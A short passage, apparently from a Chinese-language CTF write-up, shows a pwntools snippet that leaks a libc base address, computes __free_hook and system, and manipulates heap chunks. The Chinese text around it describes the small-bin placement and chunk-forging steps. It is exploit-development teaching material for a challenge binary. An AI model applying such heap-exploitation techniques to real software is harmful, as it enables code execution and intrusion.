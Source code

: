 [![](assets/1701606615-30380042607d29d2bcd14ec14f066a25.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115212945-0ac74654-83bb-1.png)  
泄露一下libc然后，把chunk链入small bin中

```plain
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')
```

[![](assets/1701606615-1978865330df484557ea2e1c2d9a9300.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213004-15ac9b96-83bb-1.png)  
然后在下面那个位置伪造chunk来进行合并